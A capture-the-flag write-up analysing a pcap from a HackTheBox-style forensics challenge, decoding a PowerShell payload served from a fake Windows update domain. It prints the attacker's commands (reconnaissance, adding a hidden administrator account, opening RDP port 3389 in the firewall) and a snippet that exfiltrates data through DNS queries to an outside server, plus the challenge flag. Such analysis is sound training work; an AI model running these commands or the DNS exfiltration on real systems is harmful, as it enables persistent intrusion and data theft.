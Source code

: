 # Automation

![](1.png)

We are given a pcap file that looks like a bunch of windows update traffic. Poking around we see a bunch of weird DNS traffic with a few TXT answers.

![](2.png)

as well as a url to `http://windowsliveupdater.com/desktop.png`. Checking the image, it looks to be a base64 encoded [payload](payload.ps1). On the DNS request side, each of the answers looks to be base64 encoded strings:

![](3.png)

Running the strings through the Decrypt-String function we found in the payload we get:

```powershell
hostname
whoami
ipconfig
wmic /namespace:\\root\SecurityCenter PATH AntiVirusProduct GET /value
net user DefaultUsr "JHBhcnQxPSdIVEJ7eTB1X2M0bl8n" /add /Y; net localgroup Administrators /add DefaultUsr; net localgroup "Remote Desktop Users" /add DefaultUsr
netsh advfirewall firewall add rule name="Terminal Server" dir=in action=allow protocol=TCP localport=3389
net start TermService 
```

Pushing `JHBhcnQxPSdIVEJ7eTB1X2M0bl8n` through the Decrypt function we get part of the flag! `$ part1='HTB{y0u_c4n_'`

The second part of the flag can be found in the payload layout: 
- First it gets a bunch of strings from the DNS server
- Decrypts them
- Splits them into chunks of 32 

```powershell
$pr = Encrypt-String $key $output|parts 32
```

- Finally, it then pushes out a DNS request starting with `start.windowsliveupdater.com` and ending with `end.windowsliveupdater.com`. In between, it takes each chunk of 32 and prepends it to `.windowsliveupdater.com` using the following:

```powershell
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
```

So, to recover the info we just need to grab all the strings between `start` and `end`, convert them back into base64 strings, and push them through the decrypt function to get the second half of the flag:

![](4.png)

`Flag: HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}`